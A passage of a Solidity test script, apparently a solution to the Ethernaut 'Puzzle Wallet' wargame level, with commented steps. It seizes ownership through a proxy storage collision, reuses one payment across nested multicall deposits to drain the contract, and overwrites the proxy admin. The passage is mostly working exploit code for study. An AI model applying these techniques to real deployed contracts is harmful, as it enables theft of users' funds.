 ```solidity

        emit log_string(
            "--------------------------------------------------------------------------"
        );

        // 1. Attacker calls `proposeNewAdmin()` function to become owner of `PuzzleWallet` contract.
        level.proposeNewAdmin(player);

        emit log_named_address(
            "Pending admin address after first attack",
             level.pendingAdmin()
        );

        emit log_named_address(
            "Owner address after first attack",
            puzzleWallet.owner()
        );

        emit log_named_address(
            "Admin address after first attack",
            level.admin()
        );

        emit log_string(
            "--------------------------------------------------------------------------"
        );

        // 2. Attacker calls `addToWhitelist()` to whitelist his address.
        puzzleWallet.addToWhitelist(player);

        emit log_named_uint(
            "Balance of contract before second attack",
            address(puzzleWallet).balance
        );

        // 3. Attacker batches call payload using `multicall()` function to deposit more ether than he has.
        bytes[] memory dataArraySecondCall = new bytes[](1);
        dataArraySecondCall[0] = abi.encodeWithSelector(
            puzzleWallet.deposit.selector
        );

        bytes[] memory dataArray = new bytes[](2);

        dataArray[0] = abi.encodeWithSelector(puzzleWallet.deposit.selector);
        dataArray[1] = abi.encodeWithSelector(
            puzzleWallet.multicall.selector,
            dataArraySecondCall
        );
        puzzleWallet.multicall{value: 0.001 ether}(dataArray);

        // 4. Attacker drains the contract balance by calling `execute()`.

        puzzleWallet.execute(player, address(puzzleWallet).balance, "");

        emit log_named_uint(
            "Balance of contract after second attack",
            address(puzzleWallet).balance
        );

        // 5. Attacker calls `setMaxBalance()` to become the `admin` of the `PuzzleProxy`.
        puzzleWallet.setMaxBalance(uint256(uint160(address(player))));
```
